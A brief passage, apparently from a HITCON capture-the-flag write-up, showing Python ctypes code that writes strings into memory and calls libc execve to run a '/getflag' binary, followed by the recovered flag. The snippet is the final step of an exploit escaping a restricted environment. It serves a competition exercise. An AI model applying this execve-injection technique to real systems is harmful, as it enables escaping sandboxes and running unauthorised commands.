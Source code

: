 ```python
libc.execve.argtypes = [c_ulong, c_ulong, c_ulong]
def write(ad, data):
    memmove(ad, data, len(data))

write(addr, b"/getflag\0")
write(arg_addr, struct.pack("<QQQQQ", addr, arg_addr + 0x100, arg_addr + 0x200, arg_addr + 0x300, 0))
write(arg_addr + 0x100, b"give\0")
write(arg_addr + 0x200, b"me\0")
write(arg_addr + 0x300, b"flag\0")

libc.execve(addr, arg_addr, 0)
```

This gives us our final flag: `hitcon{level3__/proc_is_tooooo_op_pls_nerf._.}`
